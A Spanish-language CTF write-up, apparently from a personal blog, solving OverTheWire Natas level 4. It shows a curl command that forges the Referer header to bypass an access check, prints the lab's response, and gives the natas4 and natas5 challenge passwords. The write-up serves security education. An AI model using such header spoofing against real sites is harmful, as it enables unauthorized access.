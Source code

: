 ```yaml
---
title: 'CTF OverTheWire: Natas4'
author: Alevsk
type: post
date: 2018-06-02T19:14:54+00:00
url: /2018/06/ctf-overthewire-natas4/
categories:
  - Ethical Hacking
  - Linux
  - Mac
  - IT News
  - Programming
  - Technology
  - Tutorials
tags:
  - capture the flag
  - ctf
  - hacking
  - Ethical Hacking
  - Linux
  - Programming
  - Technology
  - Tutorials

---
```

[![](/images/Screen-Shot-2018-05-29-at-1.57.38-AM-1200x596.png)](http://www.alevsk.com/2018/05/ctf-overthewire-natas1/screen-shot-2018-05-29-at-1-57-38-am/)

Continuamos con la serie de tutoriales del [CTF Natas](http://overthewire.org/wargames/natas/), ahora toca el turno de [natas4](http://overthewire.org/wargames/natas/natas4.html).

```bash
Natas Level 3 → Level 4  
Username: natas4  
URL: http://natas4.natas.labs.overthewire.org
```

Utilizamos la bandera obtenida en el reto anterior y accedemos a la URL indicada en las instrucciones del reto, veremos una pantalla como la siguiente.

[![](/images/Screen-Shot-2018-06-02-at-1.18.49-PM-1200x436.png)](http://www.alevsk.com/2018/06/ctf-overthewire-natas4/screen-shot-2018-06-02-at-1-18-49-pm/)

Como lo hemos hecho anteriormente, revisamos el codigo fuente pero no encontramos nada interesante, tampoco hay archivo [robots.txt](https://www.alevsk.com/2018/05/ctf-overthewire-natas3/)

Nos concentramos en el mensaje que aparece en la pantalla: **Access disallowed. You are visiting from “" while authorized users should come only from “http://natas5.natas.labs.overthewire.org/"**

> Acceso deshabilitado. Nos estas visitando de “" mientras que los usuarios autorizados deberian de venir desde “http://natas5.natas.labs.overthewire.org/"

El mensaje anterior sugiere algún tipo de validación del lado del servidor en donde se revisa el origen de la petición, damos click en el link de refresh, inspeccionamos las cabeceras del request utilizando google developer toolbars y observamos que el mensaje de la pagina cambio.

[![](/images/Screen-Shot-2018-06-02-at-1.41.55-PM-1200x367.png)](http://www.alevsk.com/2018/06/ctf-overthewire-natas4/screen-shot-2018-06-02-at-1-41-55-pm/)

Observamos una cabecera interesante llamada **referer** cuyo valor actual es **http://natas4.natas.labs.overthewire.org/**, veamos si es posible definir nuestro propio valor utilizando [cURL](https://www.alevsk.com/2018/05/ctf-overthewire-natas1/).

[![](/images/Screen-Shot-2018-06-02-at-1.41.49-PM-1200x408.png)](http://www.alevsk.com/2018/06/ctf-overthewire-natas4/screen-shot-2018-06-02-at-1-41-49-pm/)

Abrimos una consola y escribimos

```bash
$ curl –help  
Usage: curl [options…] <url>  
Options: (H) means HTTP/HTTPS only, (F) means FTP only  
….  
-r, –range RANGE Retrieve only the bytes within RANGE  
–raw Do HTTP "raw"; no transfer decoding (H)  
-e, –referer Referer URL (H)  
-J, –remote-header-name Use the header-provided filename (H)  
….
```

Genial, con el parámetro **-e** / **–referer** podemos definir nuestra propia URL.

```bash
○ → curl –user natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ –referer http://natas5.natas.labs.overthewire.org/ http://natas4.natas.labs.overthewire.org/  
<html>
<head>
<!--– This stuff in the header has nothing to do with the level –-->
<link href="http://natas.labs.overthewire.org/css/level.css" rel="stylesheet" type="text/css"/>
<link href="http://natas.labs.overthewire.org/css/jquery-ui.css" rel="stylesheet"/>
<link href="http://natas.labs.overthewire.org/css/wechall.css" rel="stylesheet"/>
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src="http://natas.labs.overthewire.org/js/wechall-data.js"></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas4", "pass": "Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ" };</script></head>
<body>
<h1>natas4</h1>
<div id="content">

Access granted. The password for natas5 is iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq  
<br/>
<div id="viewsource">[Refresh page](index.php)</div>
</div>
</body>
</html>
```

La bandera para acceder a **natas5** es **iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq**

> * Aprendimos que el [referer header](https://en.wikipedia.org/wiki/HTTP_referer) no es garantía de que el request viene del origen que el cliente nos esta diciendo, esto podría ser considerado una vulnerabilidad de [Broken Access Control](https://www.owasp.org/index.php/Top_10-2017_A5-Broken_Access_Control) de acuerdo al [top 10 de vulnerabilidad de OWASP](https://www.owasp.org/index.php/Top_10-2017_Top_10). 

Happy hacking 🙂</url>